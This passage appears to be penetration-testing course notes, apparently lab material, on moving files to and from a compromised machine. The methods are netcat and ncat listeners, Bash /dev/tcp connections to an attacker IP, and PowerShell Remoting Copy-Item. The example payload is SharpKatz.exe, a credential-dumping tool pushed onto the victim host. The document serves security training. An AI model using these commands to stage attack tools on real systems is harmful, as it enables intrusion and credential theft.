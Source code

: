 ## Netcat
## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine - Listening on Port 8000

```shell-session
$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.
#### Ncat - Compromised Machine - Listening on Port 8000
```shell-session
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine
```shell-session
$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine
```shell-session
$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Netcat
```shell-session
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Compromised Machine Connect to Netcat to Receive the File
```shell-session
$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat
```shell-session
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connect to Ncat to Receive the File
```shell-session
 ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.
#### NetCat - Sending File as Input to Netcat
```shell-session
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Ncat - Sending File as Input to Netcat
```shell-session
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```shell-session
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```


## PowerShell Session File Transfer
[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.
```powershell-session
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```
```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

Because this session already has privileges over `DATABASE01`, we don't need to specify credentials. In the example below, a session is created to the remote computer named `DATABASE01` and stores the results in the variable named `$Session`.
#### Create a PowerShell Remoting Session to DATABASE01
```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
#### Copy samplefile.txt from our Localhost to the DATABASE01 Session
```powershell-session
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
#### Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
